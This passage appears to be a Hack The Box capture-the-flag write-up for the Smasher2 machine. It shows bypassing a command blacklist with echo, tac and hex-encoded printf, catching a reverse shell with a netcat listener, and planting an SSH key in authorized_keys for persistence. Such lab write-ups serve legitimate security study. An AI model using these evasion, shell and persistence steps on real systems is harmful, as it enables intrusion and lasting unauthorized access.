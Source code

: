 Instead of using `ls`, I can do `echo *` or `echo ../../../../*` to use path traversal and walk the entire file system.

![](/assets/images/htb-writeup-smasher2/rce2.png)

I was able to find the home directory of user `dzonerzy`.

![](/assets/images/htb-writeup-smasher2/rce3.png)

To read the flag I used the `tac` command which was not blacklisted. It's basically the same as `cat` but lists the content of the file in reverse order.

![](/assets/images/htb-writeup-smasher2/rce4.png)

After some experimentation I found that the `printf` command is allowed and that hex encoded characters are permitted. We're also allowed to redirect the output to files so I now have a way to write arbitrary data to files without being intercepted by the WAF.

So I encoded the following shell script with CyberChef:

![](/assets/images/htb-writeup-smasher2/rce5.png)

Then I wrote the script to the server using `printf`:

![](/assets/images/htb-writeup-smasher2/rce6.png)

And made it executable...

![](/assets/images/htb-writeup-smasher2/rce7.png)

Then executed it and I finally got a shell

![](/assets/images/htb-writeup-smasher2/rce8.png)

```
# nc -lvnp 4444
Ncat: Version 7.70 ( https://nmap.org/ncat )
Ncat: Listening on :::4444
Ncat: Listening on 0.0.0.0:4444
Ncat: Connection from 10.10.10.135.
Ncat: Connection from 10.10.10.135:51882.
id
uid=1000(dzonerzy) gid=1000(dzonerzy) groups=1000(dzonerzy),4(adm),24(cdrom),30(dip),46(plugdev),111(lpadmin),112(sambashare)
python -c 'import pty;pty.spawn("/bin/bash")'
dzonerzy@smasher2:~/smanager$
```

After getting a shell, I dropped my RSA public key into `authorized_keys` so I could use a regular SSH session:

```
dzonerzy@smasher2:~$ echo "ssh-rsa AAAAB3NzaC1yc2EAAAADAQ
ABAAABAQC+SZ75RsfVTQxRRbezIJn+bQgNifXvjMWfhT1hJzl/GbTbykF
...
tGPTwuiA5NAcPKPG25jkQln3J8Id2ngappH2jeDg89 root@ragingunicorn" > .ssh/authorized_keys
```
